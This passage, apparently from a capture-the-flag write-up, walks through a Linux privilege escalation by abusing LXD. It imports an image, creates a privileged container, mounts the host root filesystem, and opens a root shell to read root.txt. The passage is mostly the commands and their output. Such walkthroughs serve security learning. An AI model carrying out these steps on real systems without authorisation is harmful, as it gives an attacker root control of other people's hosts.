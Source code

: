 ```console
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04
```
seem like we need to run lxd is not created yet. let run `lxd init` and press enter for everything (create with defualt setting). now we gonna create container -> device as root. then spawn a shell to gain root privilage!!
```console
$ lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
Error: Image with same fingerprint already exists
$ lxc init kurohat kurocontainer -c security.privileged=true
lxc init kurohat kurocontainer -c security.privileged=true
Creating kurocontainer
$ lxc config device add kurocontainer kurodevice disk source=/ path=/mnt/root recursive=true
lxc config device add kurocontainer kurodevice disk source=/ path=/mnt/root recursive=true
Device kurodevice added to kurocontainer
$ lxc start kurocontainer
lxc start kurocontainer
$ lxc exec kurocontainer /bin/sh
lxc exec kurocontainer /bin/sh
~ # whoami  
whoami
root
~ # ls  /mnt/root/root/
ls  /mnt/root/root/
root.txt
```



